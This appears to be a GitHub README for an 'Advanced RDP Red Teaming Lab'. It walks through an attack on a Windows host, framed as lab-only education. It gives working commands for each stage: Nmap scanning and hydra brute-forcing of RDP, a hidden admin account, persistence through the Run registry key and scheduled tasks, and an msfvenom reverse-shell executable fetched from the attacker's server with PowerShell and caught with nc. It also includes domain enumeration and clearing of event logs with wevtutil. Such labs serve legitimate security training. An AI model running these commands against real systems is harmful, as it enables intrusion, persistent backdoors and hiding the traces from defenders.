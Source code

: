 Advanced RDP Red Teaming Lab

Disclaimer

> This project is for educational purposes only. All activities were conducted in a safe, isolated lab environment using virtual machines I own. Do not attempt this on any system you do not have explicit permission to test.




---

Table of Contents

Objective

Lab Setup

Recon & Scanning

RDP Brute-Force

Python Script

Access & Post-Exploitation

Privilege Escalation

Persistence

Backdoor Shell

Lateral Movement

Clean-Up

Reporting



---

Objective

Simulate a real-world red team operation by brute-forcing weak RDP credentials, then performing post-exploitation, persistence, and potential lateral movement on the compromised host.


---

Lab Setup

-attacker: kali linux

tools :hydra,nmap,xfreerdp,python

-victim:windows 10,

tools:RDP enabled,weak password 

-Network: Host only,isolated,no internet.

---

Recon & Scanning

Scan RDP port with Nmap:

nmap -p 3389 <target_ip>


---

RDP Brute-Force

Use hydra:

hydra -t 8 -V -l Administrator -P shortlist.txt rdp://<target_ip>

Or use the Python script below.


---

Python Script

Run with:

python3 rdp_bruteforce.py


---

Access & Post-Exploitation

xfreerdp /u:Administrator /p:<password> /v:<target_ip> /cert:ignore

Inside RDP Session:

whoami
hostname
ipconfig /all
systeminfo
dir /s /b C:\\Users\\*.txt


---

Privilege Escalation

Check permissions:

whoami /groups

Run WinPEAS/SharpUp for local exploits (upload via RDP). Look for:

AlwaysInstallElevated

Unquoted service paths

Weak service permissions



---

Persistence

Add hidden admin user:

net user sysadmin P@ssw0rd123 /add
net localgroup administrators sysadmin /add

Registry-based persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v updater /t REG_SZ /d "C:\\rev.exe"

Scheduled Task:

schtasks /create /tn "Updater" /tr "C:\\rev.exe" /sc onlogon


---

Backdoor Shell

Generate backdoor:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe -o rev.exe
python3 -m http.server 80

Download in RDP:

powershell -c "Invoke-WebRequest -Uri http://<kali_ip>/rev.exe -OutFile C:\\rev.exe"

Execute & catch:

nc -lvnp 4444


---

Lateral Movement

net view /domain
net view \\<hostname>

Reuse dumped credentials to access other machines if available.


---

Clean-Up

Clear logs (not recommended unless simulating attacker evasion):

wevtutil cl Security
wevtutil cl System

Delete backdoors, users, and payloads.


---

Reporting

Document:

Entry vector

Credentials cracked

Privilege escalation method

Persistence mechanism

Tools/scripts used

Detection logs

Mitigation recommendations



---

.gitignore

*.log
*.pcap
*.cap
*.pyc
__pycache__/
*.vbox
*.vbox-prev
*.vdi
*.ova
*.ovf
.DS_Store
.idea/
.env
output/


---

End of README

